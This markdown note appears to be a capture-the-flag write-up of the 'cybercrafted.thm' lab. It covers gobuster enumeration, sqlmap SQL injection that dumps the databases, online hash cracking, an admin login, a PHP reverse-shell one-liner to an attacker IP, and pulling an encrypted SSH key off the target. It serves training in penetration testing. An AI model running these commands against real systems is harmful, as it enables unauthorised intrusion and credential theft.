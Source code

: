 As I wasn't finding nothing, I tried to use `gobuster`
- More info in [Gobuster 🐦](/notes/tools/Gobuster.md)

```shell
gobuster dir -u http://store.cybercrafted.thm/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt --no-error -t 100 -x php

# Found
/search.php           (Status: 200) [Size: 838]
```

![](Pasted%20image%2020240527132134.png)

It seems like a web to find items, so I'll try some SQLi

![](Pasted%20image%2020240527132228.png)

Capturing the request with `Burp` I produced a 500 error:

![](Pasted%20image%2020240527133011.png)

So it's time to use Sqlmap with that request:
- More info in [Sqlmap 🪲](/notes/tools/Sqlmap.md)

```shell
sqlmap -r req.txt -p 'search' --level=3 --risk=3 --batch --dbs --dump --threads 3 
```

> *Bingo!*

![](Pasted%20image%2020240527133530.png)

We also found the hash of the user, so we can go to [hashes.com](https://hashes.com/en/decrypt/hash) and decrypt it:

![](Pasted%20image%2020240527133757.png)

Now we can login to the previously discovered `admin` suibdomain:

![](Pasted%20image%2020240527133915.png)

Now I could obtain a reverse shell with:
- More info in [Reverse shells 👾](reverse_shells.md)

```shell
php -r '$sock=fsockopen("10.11.74.136",666);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Now I found and encrypted id_rsa on the `.ssh` directory:

![](Pasted%20image%2020240527135446.png)

So I'll copy it to my machine and bruteforce it:

```shell
python3 -m http.server:8090 #on the victim's machine

wget http://cybercrafted.thm:8090/id_rsa # on my machine
```
